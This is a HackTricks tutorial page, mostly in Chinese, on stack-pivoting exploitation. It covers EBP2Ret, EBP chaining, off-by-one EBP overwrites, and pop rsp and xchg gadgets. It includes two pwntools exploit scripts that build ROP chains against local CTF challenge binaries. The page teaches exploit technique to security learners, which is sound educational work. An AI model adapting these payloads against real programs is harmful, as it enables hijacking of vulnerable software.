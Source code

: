 # Stack Pivoting - EBP2Ret - EBP chaining

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}

## 基本信息

该技术利用操控 **基指针 (EBP)** 的能力，通过仔细使用 EBP 寄存器和 `leave; ret` 指令序列来链接多个函数的执行。

作为提醒，**`leave`** 基本上意味着：
```
mov               esp, ebp
pop               ebp
ret
```
And as the **EBP is in the stack** before the EIP it's possible to control it controlling the stack.

### EBP2Ret

这个技术在你可以**更改 EBP 寄存器但没有直接方法更改 EIP 寄存器**时特别有用。它利用了函数执行完毕后的行为。

如果在 `fvuln` 执行期间，你设法在栈中注入一个指向内存中你 shellcode 地址的**假 EBP**（加上 4 字节以考虑 `pop` 操作），你可以间接控制 EIP。当 `fvuln` 返回时，ESP 被设置为这个构造的位置，随后的 `pop` 操作将 ESP 减少 4，**有效地使其指向攻击者在其中存储的地址。**\
注意你**需要知道 2 个地址**：ESP 将要去的地址，以及你需要在 ESP 指向的地址中写入的地址。

#### Exploit Construction

首先，你需要知道一个**可以写入任意数据/地址的地址**。ESP 将指向这里并**运行第一个 `ret`**。

然后，你需要知道 `ret` 使用的地址，这将**执行任意代码**。你可以使用：

* 一个有效的 [**ONE\_GADGET**](https://github.com/david942j/one\_gadget) 地址。
* **`system()`** 的地址，后面跟着**4 个垃圾字节**和 `"/bin/sh"` 的地址（x86 位）。
* 一个**`jump esp;`** gadget 的地址（[**ret2esp**](ret2esp-ret2reg.md)），后面跟着要执行的**shellcode**。
* 一些 [**ROP**](rop-return-oriented-programing.md) 链

请记住，在受控内存的这些地址之前，必须有**`4` 字节**，因为**`pop`** 部分的 `leave` 指令。可以利用这 4B 设置一个**第二个假 EBP**，并继续控制执行。

#### Off-By-One Exploit

这个技术有一个特定的变体，称为“Off-By-One Exploit”。当你**只能修改 EBP 的最低有效字节**时使用。在这种情况下，存储要跳转到的地址的内存位置必须与 EBP 共享前 3 个字节，从而允许在更受限的条件下进行类似的操作。

### **EBP Chaining**

因此，将一个受控地址放入栈的 `EBP` 条目中，并在 `EIP` 中放入一个 `leave; ret` 的地址，可以**将 `ESP` 移动到栈中受控的 `EBP` 地址**。

现在，**`ESP`** 被控制，指向一个期望的地址，下一条要执行的指令是 `RET`。为了利用这一点，可以在受控的 ESP 位置放置以下内容：

* **`&(next fake EBP)`** -> 由于 `leave` 指令中的 `pop ebp` 加载新的 EBP
* **`system()`** -> 由 `ret` 调用
* **`&(leave;ret)`** -> 在 system 结束后调用，它将 ESP 移动到假 EBP 并重新开始
* **`&("/bin/sh")`**-> `system` 的参数

基本上，这种方式可以链接多个假 EBP 来控制程序的流程。

这就像一个 [ret2lib](ret2lib/)，但更复杂，没有明显的好处，但在某些边缘情况下可能会很有趣。

此外，这里有一个 [**挑战示例**](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/leave)，使用这个技术与**栈泄漏**来调用一个成功的函数。这是页面的最终有效载荷：
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

p.recvuntil('to: ')
buffer = int(p.recvline(), 16)
log.success(f'Buffer: {hex(buffer)}')

LEAVE_RET = 0x40117c
POP_RDI = 0x40122b
POP_RSI_R15 = 0x401229

payload = flat(
0x0,               # rbp (could be the address of anoter fake RBP)
POP_RDI,
0xdeadbeef,
POP_RSI_R15,
0xdeadc0de,
0x0,
elf.sym['winner']
)

payload = payload.ljust(96, b'A')     # pad to 96 (just get to RBP)

payload += flat(
buffer,         # Load leak address in RBP
LEAVE_RET       # Use leave ro move RSP to the user ROP chain and ret to execute it
)

pause()
p.sendline(payload)
print(p.recvline())
```
## EBP 是无用的

正如 [**在这篇文章中解释的**](https://github.com/florianhofhammer/stack-buffer-overflow-internship/blob/master/NOTES.md#off-by-one-1)，如果一个二进制文件是使用某些优化编译的，**EBP 永远无法控制 ESP**，因此，任何通过控制 EBP 的漏洞利用基本上都会失败，因为它没有任何实际效果。\
这是因为如果二进制文件经过优化，**前言和后记会发生变化**。

* **未优化：**
```bash
push   %ebp         # save ebp
mov    %esp,%ebp    # set new ebp
sub    $0x100,%esp  # increase stack size
.
.
.
leave               # restore ebp (leave == mov %ebp, %esp; pop %ebp)
ret                 # return
```
* **优化：**
```bash
push   %ebx         # save ebx
sub    $0x100,%esp  # increase stack size
.
.
.
add    $0x10c,%esp  # reduce stack size
pop    %ebx         # restore ebx
ret                 # return
```
## 其他控制 RSP 的方法

### **`pop rsp`** gadget

[**在此页面**](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/pop-rsp) 你可以找到使用此技术的示例。对于这个挑战，需要调用一个带有两个特定参数的函数，并且有一个 **`pop rsp` gadget** 和一个 **来自栈的泄漏**：
```python
# Code from https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/pop-rsp
# This version has added comments

from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

p.recvuntil('to: ')
buffer = int(p.recvline(), 16) # Leak from the stack indicating where is the input of the user
log.success(f'Buffer: {hex(buffer)}')

POP_CHAIN = 0x401225       # pop all of: RSP, R13, R14, R15, ret
POP_RDI = 0x40122b
POP_RSI_R15 = 0x401229     # pop RSI and R15

# The payload starts
payload = flat(
0,                 # r13
0,                 # r14
0,                 # r15
POP_RDI,
0xdeadbeef,
POP_RSI_R15,
0xdeadc0de,
0x0,               # r15
elf.sym['winner']
)

payload = payload.ljust(104, b'A')     # pad to 104

# Start popping RSP, this moves the stack to the leaked address and
# continues the ROP chain in the prepared payload
payload += flat(
POP_CHAIN,
buffer             # rsp
)

pause()
p.sendline(payload)
print(p.recvline())
```
### xchg \<reg>, rsp gadget
```
pop <reg>                <=== return pointer
<reg value>
xchg <reg>, rsp
```
## 参考文献

* [https://bananamafia.dev/post/binary-rop-stackpivot/](https://bananamafia.dev/post/binary-rop-stackpivot/)
* [https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting)

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
